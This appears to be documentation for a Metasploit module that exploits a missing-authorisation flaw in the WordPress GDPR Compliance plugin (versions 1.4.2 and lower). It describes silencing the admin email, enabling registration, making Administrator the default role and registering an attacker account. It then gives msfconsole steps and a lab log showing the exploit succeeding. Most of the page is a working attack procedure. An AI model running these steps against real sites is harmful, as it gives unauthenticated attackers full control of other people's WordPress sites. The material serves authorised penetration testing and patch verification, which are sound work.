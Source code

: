 ## Description

This module exploits the [Wordpress GDPR compliance plugin](https://wordpress.org/plugins/wp-gdpr-compliance/) lack of validation ([WPVDB 9144](https://wpscan.com/vulnerability/9144)), which affects versions 1.4.2 and lower.

When a user triggers GDPR-related actions, Wordpress's `admin-ajax.php` is called but fails to do validation and capacity checks regarding the asked actions. This leads to any unauthenticated user being able to modify any arbitrary settings on the targeted server.

This module changes the admin email (optional) to prevent notification sending, enables new user registration, changes the default role of new users to Administrator, and registers a new user that can be used for authentication. The attacker can then log in and take any actions on the newly compromised site.

## Vulnerable Application

[GDPR Compliance plugin <= 1.4.2](https://downloads.wordpress.org/plugin/wp-gdpr-compliance.1.4.2.zip)

## Verification Steps

1. Install the application
2. `./msfconsole`
3. `use auxiliary/admin/http/wp_gdpr_compliance_privesc`
4. `set RHOST [wp host]`
5. `set RPORT [wp port]`
6. `set EMAIL [email address]`
7. `run`

## Scenarios

### Tested on Debian 9.6 running Wordpress 4.7.5 with WordPress GDPR Compliance plugin 1.4.2:

```
msf5 > use auxiliary/admin/http/wp_gdpr_compliance_privesc
msf5 auxiliary(admin/http/wp_gdpr_compliance_privesc) > set verbose true
verbose => true
msf5 auxiliary(admin/http/wp_gdpr_compliance_privesc) > set rhosts 172.22.222.145
rhosts => 172.22.222.145
msf5 auxiliary(admin/http/wp_gdpr_compliance_privesc) > set email test@example.com
email => test@example.com
msf5 auxiliary(admin/http/wp_gdpr_compliance_privesc) > check

[*] Checking /wp-content/plugins/wp-gdpr-compliance/readme.txt
[*] Found version 1.4.2 of the plugin
[*] 172.22.222.145:80 The target appears to be vulnerable.
msf5 auxiliary(admin/http/wp_gdpr_compliance_privesc) > exploit

[*] Getting security token from host...
[!] Enabling user registrations...
[!] Setting the default user role type to administrator...
[*] Registering msfuser with email test@example.com
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/wp_gdpr_compliance_privesc) >
```

